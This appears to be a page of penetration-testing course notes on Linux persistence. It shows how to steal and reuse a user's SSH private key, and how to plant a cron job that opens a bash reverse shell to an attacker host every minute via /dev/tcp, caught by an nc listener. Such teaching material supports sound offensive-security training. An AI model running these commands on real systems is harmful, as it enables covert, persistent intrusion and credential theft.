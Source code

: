 # 9 - Linux Persistence

## <mark style="color:red;">Persistence Via SSH Keys</mark>

* Linux is typically deployed as a server operating system and as a result, Linux servers are typically accessed remotely via services/protocols such as SSH.
* If SSH is enabled and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
* In most cases Linux servers will have key-based authentication enabled for the SSH service, allowing users to access the Linux system remotely without the need for a password.
* After gaining access to a Linux system, we can transfer the SSH private key of a specific user account to our system and use that SSH private key for all future authentication and access.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
scp <username>@<targetIP>:<pathToFile> <localPath> #Download a file onto the local machine from the target machine using SSH and legitimate credentials

ssh -i <privateKey> <username>@<targetIP> #Log into the target system via SSH using a private key.
```
{% endcode %}



## <mark style="color:red;">Persistence Via Cron Jobs</mark>

* Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specific schedule.
* An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job.
* We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

### **Anatomy Of A Cron Job**

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /etc/cron* #Display every cron jobs on the system.

echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<kaliIP>/1234 0>&1'" > <cronFileName> #Create a cron file connecting to our machine every minute.

crontab -i <cronFile> #Add the cron file to the crontab.
crontab -l #List the cron jobs for the current user.
# when we delete the "wait" binary, our connection closes.

# to gain persistence, we setup a listener.
nc -nvlp 1234 # the cron job executes and we get a bash shell.
```
{% endcode %}



